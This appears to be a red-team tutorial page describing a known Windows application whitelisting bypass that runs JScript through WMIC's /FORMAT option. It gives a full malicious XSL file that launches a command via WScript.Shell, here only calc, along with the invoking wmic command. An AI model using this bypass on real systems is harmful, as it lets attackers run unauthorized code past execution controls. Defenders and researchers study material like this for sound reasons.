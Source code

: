 # Application Whitelisting Bypass with WMIC and XSL

Another application whitelist bypassing technique discovered by Casey @subTee, similar to squiblydoo:

{% content-ref url="t1117-regsvr32-aka-squiblydoo.md" %}
[t1117-regsvr32-aka-squiblydoo.md](t1117-regsvr32-aka-squiblydoo.md)
{% endcontent-ref %}

## Execution

Define the XSL file containing the jscript payload:

{% code title="evil.xsl" %}
```csharp
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
	<![CDATA[
	var r = new ActiveXObject("WScript.Shell").Run("calc");
	]]> </ms:script>
</stylesheet>
```
{% endcode %}

Invoke any wmic command now and specify /format pointing to the evil.xsl:

{% code title="attacker@victim" %}
```csharp
wmic os get /FORMAT:"evil.xsl"
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-04-10-22-05-24.png)

## Observation

Calculator is spawned by svchost.exe:

![](../../.gitbook/assets/screenshot-from-2019-04-10-21-57-52.png)

## References

{% embed url="http://subt0x11.blogspot.com/2018/04/wmicexe-whitelisting-bypass-hacking.html" %}
